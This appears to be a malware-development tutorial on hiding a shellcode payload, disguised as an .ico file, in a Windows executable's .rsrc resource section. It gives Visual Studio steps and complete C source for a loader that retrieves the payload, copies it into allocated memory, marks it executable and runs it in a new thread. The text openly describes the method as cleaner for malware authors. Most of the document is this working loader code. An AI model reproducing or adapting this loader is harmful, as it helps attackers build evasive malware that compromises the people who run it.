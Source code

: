 # Payload in .rsrc section

Saving the payload in the `.rsrc` section is one of the best options as this is where most real-world binaries save their data. It is also a cleaner method for malware authors, since larger payloads cannot be stored in the `.data` or `.rdata` sections due to size limits, leading to errors from Visual Studio during compilation.

\
The steps below illustrate how to store a payload in the `.rsrc` section.

1\. Inside Visual Studio, right-click on 'Resource files' then click Add > New Item.

2 .Click on 'Resource File'.

3\. This will generate a new sidebar, the Resource View. Right-click on the .rc file (Resource.rc is the default name), and select the 'Add Resource' option.

4\. Click 'Import'.

5\. Select the calc.ico file, which is the raw payload renamed to have the `.ico` extension.

6 .A prompt will appear requesting the resource type. Enter "RCDATA" without the quotes.

7 .After clicking OK, the payload should be displayed in raw binary format within the Visual Studio project

8\. When exiting the Resource View, the "resource.h" header file should be visible and named according to the .rc file from Step 2. This file contains a define statement that refers to the payload's ID in the resource section (IDR\_RCDATA1). This is important in order to be able to retrieve the payload from the resource section later.

Once compiled, the payload will now be stored in the `.rsrc` section, but it cannot be accessed directly. Instead, several WinAPIs must be used to access it.

* [FindResourceW](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-findresourcew) - Get the location of the specified data stored in the resource section of a special ID passed in (this is defined in the header file)
* [LoadResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) - Retrieves a `HGLOBAL` handle of the resource data. This handle can be used to obtain the base address of the specified resource in memory.
* [LockResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) - Obtain a pointer to the specified data in the resource section from its handle.
* [SizeofResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) - Get the size of the specified data in the resource section.

The code snippet below will utilize the above Windows APIs to access the `.rsrc` section and fetch the payload address and size.

```c
#include <Windows.h>
#include <stdio.h>
#include "resource.h"

int main() {

	HRSRC		hRsrc = NULL;
	HGLOBAL		hGlobal = NULL;
	PVOID		pPayloadAddress = NULL;
	SIZE_T		sPayloadSize = NULL;


	// Get the location to the data stored in .rsrc by its id *IDR_RCDATA1*
	hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
	if (hRsrc == NULL) {
		// in case of function failure 
		printf("[!] FindResourceW Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get HGLOBAL, or the handle of the specified resource data since its required to call LockResource later
	hGlobal = LoadResource(NULL, hRsrc);
	if (hGlobal == NULL) {
		// in case of function failure 
		printf("[!] LoadResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get the address of our payload in .rsrc section
	pPayloadAddress = LockResource(hGlobal);
	if (pPayloadAddress == NULL) {
		// in case of function failure 
		printf("[!] LockResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get the size of our payload in .rsrc section
	sPayloadSize = SizeofResource(NULL, hRsrc);
	if (sPayloadSize == NULL) {
		// in case of function failure 
		printf("[!] SizeofResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Printing pointer and size to the screen
	printf("[i] pPayloadAddress var : 0x%p \n", pPayloadAddress);
	printf("[i] sPayloadSize var : %ld \n", sPayloadSize);

	void* exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;

	exec_mem = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (exec_mem == NULL) {
		printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return -1;
	}

	RtlMoveMemory(exec_mem, pPayloadAddress, sPayloadSize);

	rv = VirtualProtect(exec_mem, sPayloadSize, PAGE_EXECUTE_READ, &oldprotect);

	if (rv != 0) {
		th = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL, 0, NULL);
		WaitForSingleObject(th, -1);
	}

	return 0;
}
```
